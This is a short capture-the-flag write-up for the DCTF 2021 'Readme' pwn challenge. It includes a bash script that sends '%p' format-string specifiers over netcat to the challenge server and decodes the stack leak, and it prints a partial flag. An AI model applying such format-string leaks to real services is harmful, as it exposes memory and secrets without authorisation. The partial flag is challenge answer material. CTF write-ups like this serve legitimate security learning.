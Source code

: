 # DCTF 2021

## Readme

> 150
> 
> Read me to get the flag. 
> 
> `nc dctf-chall-readme.westeurope.azurecontainer.io 7481`
>
> [readme](readme)

Tags: _pwn_ _x86-64_ _format-string_


## Summary

Classic leak the flag from the stack with `%p`.


## Exploit

```sh
#!/bin/bash

p=8
for((p=8;p<14;p++)) {
    echo '%'$p'$p' | \
    nc dctf-chall-readme.westeurope.azurecontainer.io 7481 | \
    grep 'hello ' | \
    awk -Fx '{print $NF}' | \
    xxd -r -p | \
    rev
}
```

Output:

```bash
# ./exploit.sh
dctf{n0w_g0_r3ad_s0me_b0
rev: stdin: Invalid or incomplete multibyte or wide character
rev: stdin: Invalid or incomplete multibyte or wide character
```

Yeah, so the input string corrupting stack?  Didn't really look that hard into the problem, just guessed the `0k5` at the end. 
